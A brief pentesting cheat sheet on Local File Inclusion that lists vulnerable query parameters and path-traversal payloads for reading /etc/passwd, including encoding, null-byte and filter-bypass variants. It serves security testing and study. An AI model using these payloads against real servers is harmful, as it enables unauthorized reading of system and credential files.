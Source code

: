 ## Local File Inclusion :

**- This is a bug that allows hackers to `view`,`access`,`include` files located in the web server**

### Parameters :



```
?cat=
?dir=
?action=
?board=
?date=
?detail=
?file=
?download=
?path=
?folder=
?prefix=
?include=
?page=
?inc=
?locate=
?show=
?doc=
?site=
?type=
?view=
?content=
?document=
?layout=
?mod=
```



#### Basic payloads to testing :

```
?file=./../../../../../../../../../etc/passwd
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

// null byte
http://example.com/index.php?page=../../../etc/passwd%00

// Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

// Filter Bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd


```



##### Intresting `Functions()` :

![](5.jpg)



## References: [Tricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)


